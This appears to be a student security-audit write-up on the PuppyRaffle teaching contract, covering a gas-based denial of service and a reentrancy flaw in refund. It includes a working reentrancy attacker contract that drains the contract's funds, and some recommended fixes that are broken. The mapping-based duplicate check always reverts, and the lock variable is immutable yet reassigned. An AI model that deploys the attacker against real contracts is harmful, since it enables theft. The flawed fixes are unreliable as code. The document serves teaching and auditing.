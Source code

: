 ## [M-1] Looping through players array to check for duplicates in `PuppyRaffle::enterRaffle` is a potential DoS vector, incrementing gas costs for future entrants

### Description:
The `PuppyRaffle::enterRaffle` function has a duplicate checking mechanism that loops through the `players` array to check for duplicates. However, the longer the `PuppyRaffle::players` array is, the more checks a new player will have to make. This means that the gas costs for players who enter right when the raffle starts will be dramatically lower than those who enter later. Every additional play in the `players` array is an additional check the loop will have to make.

> **Note to students:** This next line would likely be its own finding itself. However, we haven’t taught you about MEV yet, so we are going to ignore it.

Additionally, this increased gas cost creates front-running opportunities where malicious users can front-run another raffle entrant’s transaction, increase its costs, so their enter transaction fails.

---

### Impact:
The impact is two-fold:

1. The gas costs for raffle entrants will greatly increase as more players enter the raffle.  
2. Front-running opportunities are created for malicious users to increase the gas costs of other users, so their transaction fails.

---

### Proof of Concept:

If we have 2 sets of 100 players enter, the gas costs will be as such:
- **1st 100 players**: 6,251,420  
- **2nd 100 players**: 18,066,229  

This is more than **3x** as expensive for the second set of 100 players!

This is due to the `for` loop in the `PuppyRaffle::enterRaffle` function.

Place the following test into `PuppyRaffleTest.t.sol`


<details>
<summary> Code </summary>

```javascript


function testDenailOfService() public {
        vm.txGasPrice(1);
     address[] memory players = new address[](100);

     for(uint i = 0 ; i<100 ; ++i){
        players[i] = address(i);
     }
 uint gasStartFirst = gasleft();
     puppyRaffle.enterRaffle{value:entranceFee * players.length}(players);
     uint gasEndFirst = gasleft();
     uint gasUsedFirst = (gasStartFirst-gasEndFirst)*tx.gasprice ;
     console.log("gas cost of first 100 players is " , gasUsedFirst);

address[] memory newPlayers = new address[](100);
     for(uint i = 0 ; i<100 ; ++i){
        newPlayers[i] = address(i+100) ;
     }

uint gas2StartPrice = gasleft();

puppyRaffle.enterRaffle{value:entranceFee*newPlayers.length}(newPlayers);
uint gas2EndPrice = gasleft();

uint gasUsedSecond = (gas2StartPrice-gas2EndPrice)*tx.gasprice;

console.log("gas cost of second 100 players is ",gasUsedSecond);

assert(gasUsedSecond>gasUsedFirst);
    } 

```
</details>

**Recommendation**

1. Consider allowing duplicates. User can create new wallet anyways, so the duplicate check wont prevent a person to enter multiple times.
2. Consider using mappings to duplicate. This will allow you to check constant in constant time rather that linear time.

<details>
<summary>Code</summary>

```solidity
mapping(address => uint256) public addressToRaffleId;
uint256 public raffleId = 0;

function enterRaffle(address[] memory newPlayers) public payable {
    require(msg.value == entranceFee * newPlayers.length, 
        "PuppyRaffle: Must send enough to enter raffle");

    for (uint256 i = 0; i < newPlayers.length; i++) {
        players.push(newPlayers[i]);
        addressToRaffleId[newPlayers[i]] = raffleId;
    }

    // Check for duplicates only from the new players
    for (uint256 i = 0; i < newPlayers.length; i++) {
        require(addressToRaffleId[newPlayers[i]] != raffleId, 
            "PuppyRaffle: Duplicate player");
    }

    emit RaffleEnter(newPlayers);
}
```
</details>

Removed Code:

<details>
<summary>Code</summary>

```solidity
// Check for duplicates
for (uint256 i = 0; i < players.length; i++) {
    for (uint256 j = i + 1; j < players.length; j++) {
        require(players[i] != players[j], 
            "PuppyRaffle: Duplicate player");
    }
}
```
</details>

Alternatively , you could use [`OpenZeppelin`] `EnumerableSet` library.

------
---
---

## [I-1] Changing the player balance after calling transfer function may lead to re entrancy attacks in `PuppyRaffle::refund`.

### Description : 
The `PuppyRaffle` contract has refund function after transfering the balance as refund function. The attacker can easily find out there is re entrancy attack potential and extract all of the contract balance by using `receive` or `fallback` function. After peoples has entered the `raffle`, the attacker can easily pretend entering raffle & immediatly exit that raffle but the catch here is that he can use `receive` or `fallback` function to receive the refund amount. He can put condition of the following in that receive function -:

```solidity
receive external payable {
if(address(puppyRaffle).balance >= entranceFee){
            puppyRaffle.refund(attackerIndex);
        }
}
```
---

### Impact : 
The contract balance may turn into zero. The players will neither be able to receive their raffle nft nor their ethers.

### Proof Of Concept

1. If we have 4 players who have already entered the raffle the contract balance will be increased and the attacker can view it from `etherscan`.

2. The attacker will make his own contract for attacker. That will include receive or fallback function to check a condition and extract all the money :
   
   1. Add the following to the `PuppyRaffleTest.t.sol` as an another contract.
   
<details>
<summary>Code </summary>

```javascript
   contract ReEntranceAttacker {

    PuppyRaffle puppyRaffle ;

    uint256 entranceFee ;
    uint256 attackerIndex ;

    constructor(PuppyRaffle _puppyRaffle){
        puppyRaffle = _puppyRaffle ;
        entranceFee = puppyRaffle.entranceFee();
    }

    function attack() external payable {
        address[] memory player = new address[](1);
        player[0] = address(this);

        puppyRaffle.enterRaffle{value:entranceFee*player.length}(player);

        attackerIndex = puppyRaffle.getActivePlayerIndex(address(this));
        puppyRaffle.refund(attackerIndex);
    }

   function _stealMoney() internal {
      if(address(puppyRaffle).balance >= entranceFee){
            puppyRaffle.refund(attackerIndex);
        }
   }
    fallback() external payable{
      _stealMoney() ;
    }

    receive() external payable{
   _stealMoney();
    }
    }

``` 
</details>

2.Add the following in `PuppyRaffleTest.t.sol` as an test.

<details>
<summary> Code</summary>

```javascript

 function test_reentrancy_refund() public {
        address[] memory players = new address[](4);
        players[0] = playerFour;
        players[1] = playerOne;
        players[2] = playerTwo;
        players[3] = playerThree;
        
        puppyRaffle.enterRaffle{value:entranceFee*4}(players);

        ReEntranceAttacker attackerContract = new ReEntranceAttacker(puppyRaffle) ;
        address attackUser = makeAddr("AtackUser");
        vm.deal(attackUser , 1 ether);

        console.log("Attacker Contract Balance Before attacking ", address(attackerContract).balance);
        console.log("Victim contract Balance before attacking ", address(puppyRaffle).balance);

        vm.prank(attackUser);
        attackerContract.attack{value:entranceFee}();

        console.log("Attacker Contract Balance after attacking ", address(attackerContract).balance);
        console.log("Victim contract Balance after attacking ", address(puppyRaffle).balance);

    }

```

</details>

At console you will see the following :
```
Attacker Contract Balance Before attacking 0

Victim contract Balance before attacking 4 ethers

Attacker Contract Balance after attacking 5 ethers

Victim contract Balance after attacking 0

```

**Recomendation**

1. Consider using `nonReentrant` guard from openzeppelin library.

<details>
<summary>Code</summary>

```
function refund(uint256 playerIndex) public nonReentrant{
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

        payable(msg.sender).sendValue(entranceFee);

        players[playerIndex] = address(0);
        emit RaffleRefunded(playerAddress);
    }
```
</details>

2. Consider first checking the condition, then update the state and then only transfer the fund.

<details>
<summary>Code</summary>

```
function refund(uint256 playerIndex) public  {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

        players[playerIndex] = address(0);

        payable(msg.sender).sendValue(entranceFee);

        emit RaffleRefunded(playerAddress);
```
</details>

3. Consider using boolean that locks or unlock the function

<details>
<summary>Code</summary>

```
bool public immutable lock ;

function refund(uint256 playerIndex) public nonReentrant{
        lock = false ;
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

        payable(msg.sender).sendValue(entranceFee);

        players[playerIndex] = address(0);
        emit RaffleRefunded(playerAddress);
        lock = true ;
```
</details>